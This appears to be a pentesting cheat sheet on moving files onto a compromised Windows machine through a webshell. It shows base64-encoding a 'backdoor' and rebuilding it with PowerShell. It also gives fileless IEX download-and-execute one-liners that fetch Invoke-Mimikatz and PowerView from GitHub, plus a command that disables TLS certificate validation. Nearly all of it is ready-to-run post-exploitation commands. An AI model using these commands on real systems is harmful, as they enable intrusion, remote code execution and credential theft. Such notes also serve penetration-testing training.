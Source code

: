 
## 1) PowerShell Base64 Encode & Decode
if you have access to terminal using a webshell you can 


- base64 a file that you want to transfer
```bash
$ cat backdoor| base64 -w 0 ; echo
YmFkIHRoaW5ncyBoYXBwZW4gaGVyZQo=


$ md5sum shell
2eebc05b20651f70efb2d195bbdaf2c2  shell
```


- paste it in powershell
```powershell
PS C:\user> [IO.File]::WriteAllBytes("C:\Users\public\Desktop\testing\backdoor",[Convert]::FromBase64String("YmFkIHRoaW5ncyBoYXBwZW4gaGVyZQo="))


PS C:\user> Get-FileHash .\backdoor -Algorithm MD5

Algorithm       Hash                                                                   Path                                 
---------       ----                                                                   ----                                 
MD5             2EEBC05B20651F70EFB2D195BBDAF2C2  
```



**Note:** While this method is convenient, it's not always possible to use. Windows Command Line utility (cmd.exe) has a maximum string length of 8,191 characters. Also, a web shell may error if you attempt to send extremely large strings.

## 2) PowerShell HTTP download

### 1) PowerShell DownloadFile Method
```powershell
(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
```

### 2) PowerShell DownloadString - Fileless Method
- `IEX` It is a cmdlet used to evaluate or execute a string as a PowerShell command.
```powershell
PS C:\user> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')

PS C:\user> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```
### 3) PowerShell Invoke-WebRequest
```powershell
PS C:\user> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1

PS C:\user> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -UseBasicParsing | IEX
```

if the certificate is not trusted. We can bypass that error with the following command:
```powershell
PS C:\htb> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```
